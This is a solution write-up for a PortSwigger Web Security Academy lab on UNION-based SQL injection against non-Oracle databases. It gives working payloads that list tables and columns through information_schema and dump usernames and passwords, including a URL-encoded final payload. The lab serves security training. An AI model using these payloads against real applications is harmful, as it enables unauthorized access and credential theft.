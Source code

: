 # Lab 9: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

# Solution
> Manual Exploitation
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: ```'+UNION+SELECT+'abc','def'--```
3. Use the following payload to retrieve the list of tables in the database: ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: ```'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--```
8. Find the password for the administrator user, and use it to log in.

> Scripting the attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/lab-09/sqli-lab-09.py)

## Payload
To get Table names: ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```

> Table name: `users_bujgao`

To get column names: ```%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name=%27users_bujgao%27--```

> Column name: `username_yozuai` & `password_coavwc`

Final Normal Payload: `' UNION SELECT username_yozuai, password_coavwc FROM users_bujgao--`

Final URL-Encoded Payload: `%27%20UNION%20SELECT%20username_yozuai,%20password_coavwc%20FROM%20users_bujgao--`

## Video Solution
1. Manual: [Rana Khalil's Youtube Video](https://youtu.be/JduM_dO8glw)
2. Automating the attack: [Rana Khalil's Youtube Video](https://www.youtube.com/watch?v=n2YxdgX5SJA&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=10)
